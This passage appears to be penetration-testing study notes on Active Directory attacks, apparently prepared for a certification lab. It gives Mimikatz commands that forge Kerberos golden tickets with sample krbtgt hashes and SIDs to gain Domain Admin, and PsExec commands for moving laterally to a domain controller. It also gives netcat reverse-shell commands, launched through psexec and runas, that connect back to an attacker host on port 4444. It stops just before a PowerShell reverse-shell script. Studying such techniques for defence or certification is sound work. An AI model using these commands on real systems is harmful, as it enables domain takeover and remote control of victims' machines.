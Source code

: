 - delete any existing Kerberos tickets
```
./mimikatz.exe kerberos::purge
```
 
- Creating a golden ticket using Mimikatz, so that user jen will be part of the Domain Admin group.
```
mimikatz.exe kerberos::golden /user:jen /domain:corp.com /sid:S-1-5-21-1987370270-658905905-1781884369 /krbtgt:1693c6cefafffc7af11ef34d1c788f47 /ptt
Invoke-Mimikatz -Command '"kerberos::golden /User:Administrator /domain:corporate.corp.local /sid:S-1-5-21-1324567831-1543786197-145643786 /krbtgt:0c88028bf3aa6a6a143ed846f2be1ea4 id:500 /groups:512 /startoffset:0 /endin:600 /renewmax:10080 /ptt"'
```

- With the golden ticket injected into memory, let's use PsExec_ to launch a new command prompt
```
"misc::cmd"
```

- Run command prompt to access DC01 and X.70
```
psexec.exe \\dc1 cmd.exe
psexec.exe \\192.168.50.70 cmd.exe
```

## Shadow Copies (skipped)
https://anishmi123.gitbooks.io/oscp-my-journey/content/active-directory/ad-attacks.html 


# Tools Introduction
-   Windows Run As - Switching users in linux is trival with the `SU` command.  However, an equivalent command does not exist in Windows.  Here are 3 ways to run a command as a different user in Windows.

      -   Sysinternals psexec is a handy tool for running a command on a remote or local server as a specific user, given you have thier username and password. The following example creates a reverse shell from a windows server to our Kali box using netcat for Windows and Psexec (on a 64 bit system).

               C:\>psexec64 \\COMPUTERNAME -u Test -p test -h "c:\users\public\nc.exe -nc 192.168.1.10 4444 -e cmd.exe" 

               PsExec v2.2 - Execute processes remotely
               Copyright (C) 2001-2016 Mark Russinovich
               Sysinternals - www.sysinternals.com

      -   Runas.exe is a handy windows tool that allows you to run a program as another user so long as you know thier password. The following example creates a reverse shell from a windows server to our Kali box using netcat for Windows and Runas.exe:

               C:\>C:\Windows\System32\runas.exe /env /noprofile /user:Test "c:\users\public\nc.exe -nc 192.168.1.10 4444 -e cmd.exe"
               Enter the password for Test:
               Attempting to start nc.exe as user "COMPUTERNAME\Test" ...

      -   PowerShell can also be used to launch a process as another user. The following simple powershell script will run a reverse shell as the specified username and password.
